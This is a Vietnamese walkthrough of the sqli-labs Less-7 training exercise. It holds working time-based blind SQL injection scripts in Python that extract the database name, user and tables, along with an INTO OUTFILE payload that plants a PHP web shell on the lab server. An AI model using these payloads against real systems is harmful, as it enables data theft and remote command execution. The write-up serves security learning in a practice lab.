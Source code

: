 # Less 7

Đề yêu cầu nhập vào một giá trị ID

![](../images/sqli-labs/Less-7/01.png)

Nhập thử vào một vài giá trị 

![](../images/sqli-labs/Less-7/02.png)

Thử nhập vào một số giá trị khác để hiển thị lỗi

![](../images/sqli-labs/Less-7/03.png)

Chưa thấy báo lỗi tiếp tục thử

![](../images/sqli-labs/Less-7/04.png)

![](../images/sqli-labs/Less-7/07.png)

Như vậy ta thấy đã xảy ra lỗi. Nhưng ta thấy các một điều khác với các bài trước. Ở trong bài này nó không hiện ra lỗi cụ thể. Có thể người lập trình đã can thiệp vào các lỗi hiển thị ra. Như vậy ta rất khó để phán đoán và không thể đọc dữ liệu bằng cách làm cho nó lỗi.

Ta tiếp tục thử để xem có thể pass qua được gì từ câu query ở bên dưới hay không

Sau nhiều lần thử (và dựa vào kinh nghiệm từ các bài trước) tôi có thể đoán ra được câu query ở đây có thể là

```
select * from table where id=(('$ID')) limit 0,1
```

![](../images/sqli-labs/Less-7/08.png)

Dựa và đây ta có thể sử dụng time based để khai thác một số thông tin trong DB. Ở đây tôi có một đoạn code đơn giảm để tìm một số thông tin

Ví dụ xác định tên của DB

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select database()),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Khi chạy kết quả sẽ trả về như sau:

```
 python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
+
+
+
+
+
```

Như vậy DB ở đây là `security

Hoặc xác định user

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select user()),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả trả về

```
python Sql-time-based.py 
r
o
o
t
@
l
o
c
a
l
h
o
s
t
+
```

user ở đây là: root@localhost

Hoặc có thể xem các bảng trong DB

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả trả về

```
python Sql-time-based.py 
e
m
a
i
l
s
+
+
+
+
+
+
+
+
+
```

Một bảng trong số đó là `emails`

Tương tự ta có thể show ra các thông tin khác trong DB

Ta cũng có thể truyền vào server một đoạn code PHP 

```
http://192.168.84.233/sqli-labs/Less-7/?id=1')) union select 1,2,"<?php system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/tests/1.php' --+
```

Ta thấy nó vẫn báo lỗi

![](../images/sqli-labs/Less-7/05.png)

Nhưng thực ra ta đã add thành công

![](../images/sqli-labs/Less-7/06.png)
